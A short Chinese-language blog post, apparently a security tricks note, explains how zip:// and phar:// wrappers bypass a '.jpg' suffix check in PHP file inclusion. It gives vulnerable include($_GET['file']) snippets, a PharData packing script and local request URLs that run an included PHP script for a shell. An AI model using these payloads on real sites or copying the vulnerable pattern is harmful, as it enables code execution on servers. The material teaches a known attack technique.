 ```yaml
---
layout: post
title: zip或phar协议包含文件
categories: tricks
tags: [tricks,php]
---
```


这个方法适用于验证包含文件为特定后缀时。
例如以下代码

```php

<?php
$file = $_GET['file'];
if(isset($file) && strtolower(substr($file, -4)) == ".jpg"){
	include($file);
}
?>

<?php
$file = $_GET['file'];
include($file.'.jpg');
?>
```
上面的代码一个验证了后缀是否为jpg，一个是直接添加了jpg后缀，然后才包含。对于现在这种情况，要包含php文件的话的，可以通过截断。但是\x00的截断在php>5.3.4就没用了，而且还要考虑GPC,所以是比较鸡肋的方法。其实我们可以通过zip协议和phar协议来包含文件。

**zip://**

首先我们新建一个zip文件，里面压缩着一个php脚本。


![2355213942](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-2355213942.png)


然后我们构造zip://php.zip#php.jpg

http://127.0.0.1/file.php?file=zip://php.zip%23php.jpg



![819654707](http://ogmho3r7t.bkt.clouddn.com/2017-04-17-819654707.png)


这样就成功shell了。


**phar://**

首先我们要用phar类打包一个phar标准包

```php
<?php
$p = new PharData(dirname(__FILE__).'/phartest2.zip', 0,'phartest2',Phar::ZIP) ; 
$x=file_get_contents('./php.php');
$p->addFromString('a.jpg', 
$x); 
?>
```
会生成一个zip的压缩文件。然后我们构造

http://127.0.0.1/file.php?file=phar://php.zip/php.jpg

也可以直接shell

其中phar适用范围为php>5.3.0

以下的这种包含方式在这样的情况下是无效的。
include(一个规定的路径+可控点)


